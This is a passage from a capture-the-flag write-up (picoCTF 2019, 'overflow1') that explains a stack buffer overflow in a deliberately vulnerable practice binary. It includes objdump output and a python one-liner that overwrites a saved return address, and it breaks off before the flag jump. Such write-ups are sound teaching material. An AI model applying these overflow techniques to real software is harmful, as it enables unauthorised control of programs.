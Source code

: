 ```bash
$ ./vuln
Give me a string and lets see what happens:
Hes no good to me dead
Woah, were jumping to 0x8048705 !
```

So, if we give it normal input, we will exit `vuln` and jump to the address `0x08048705`. Which when we look at the binary, is the instruction in `main()` right after our call to `vuln()`

```bash
$ objdump -D -Mintel vuln | grep 8048705 -B 1
 8048700:	e8 5a ff ff ff       	call   804865f <vuln>
 8048705:	b8 00 00 00 00       	mov    eax,0x0
``` 

Interestingly enough, the instruction to call our vulnerable function, is 5 bytes before the call to `vuln()` at `0x08048700`. So the first thing I am going to try is to loop back into _vuln_ for a second time. 

Remembering the blurb from the man page for `gets()`, it says the function will read all the characters until it encounters a newline or an end-of-file condition, and then that character will be replaced with a null byte. So if we send exactly 76 bytes then a newline (grand total of 77), we will overflow the buffer and overwrite the saved base pointer and our null byte will overwrite the LSB of the saved return pointer. Esssentially replacing that `0x05` with our `0x00` and thus calling `vuln()` again.

![](/assets/ctffiles/pico2019/overflow1/peda-vuln-ebp-eip.png)

```bash
$ python -c "print 76 * 'A'" | ./vuln
Give me a string and lets see what happens:
Woah, were jumping to 0x8048700 !
Woah, were jumping to 0x8048705 !
Segmentation fault (core dumped)
```
As you can see, sending exactly 76 'A' characters overflowed and caused the newline from our python print statement to overwrite the LSB (remember little-endian) of the return address. So we called `vuln()` again. We could do this many times with some additional newlines, but I will leave that as an exercise to the reader.

That's all good and what not, but lets get that flag. So we obviously want to jump into the call to `flag()`. So we will need to get the address of that call. We can use many tools, but let's use `objdump` and `grep` like we did above.
